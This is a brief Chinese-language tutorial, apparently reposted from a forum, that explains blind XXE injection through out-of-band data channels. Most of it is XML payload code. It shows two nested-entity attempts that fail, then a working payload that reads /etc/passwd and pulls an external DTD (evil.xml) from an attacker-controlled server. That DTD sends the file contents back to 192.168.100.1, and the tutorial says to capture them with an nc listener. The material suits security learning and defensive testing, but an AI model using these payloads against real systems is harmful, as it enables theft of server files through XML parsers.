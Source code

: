 # Blind XXE 原理

> 原文：[https://www.zhihuifly.com/t/topic/3593](https://www.zhihuifly.com/t/topic/3593)

### Blind XXE 原理

带外数据通道的建立是使用嵌套形式，利用外部实体中的URL发出访问，从而跟攻击者的服务器发生联系。

直接在内部实体定义中引用另一个实体的方法如下，但是这种方法行不通。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % param1 "file:///c:/1.txt">
<!ENTITY % param2 "http://127.0.0.1/?%param1">
%param2;
]> 
```

于是考虑内部实体嵌套的形式：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % param1 "file:///c:/1.txt">
<!ENTITY % param2 "<!ENTITY % param222 SYSTEM'http://127.0.0.1/?%param1;'>">
%param2;
]>
<root> 
```

但是这样做行不通，原因是不能在实体定义中引用参数实体，即有些解释器不允许在内层实体中使用外部连接，无论内层是一般实体还是参数实体。

![image](img/19d3fbb8a644691eee18ff28c3f47bc8.png)

##### 解决方案是：

将嵌套的实体声明放入到一个外部文件中，这里一般是放在攻击者的服务器上，这样做可以规避错误。

如下：

payload

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % remote SYSTEM "http://192.168.100.1/evil.xml">
%remote;
%all;
]> 
```

【evil.xml】

```
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://192.168.100.1/?file=%file;'>"> 
```

nc -lvv port 监听即可获得请求回显内容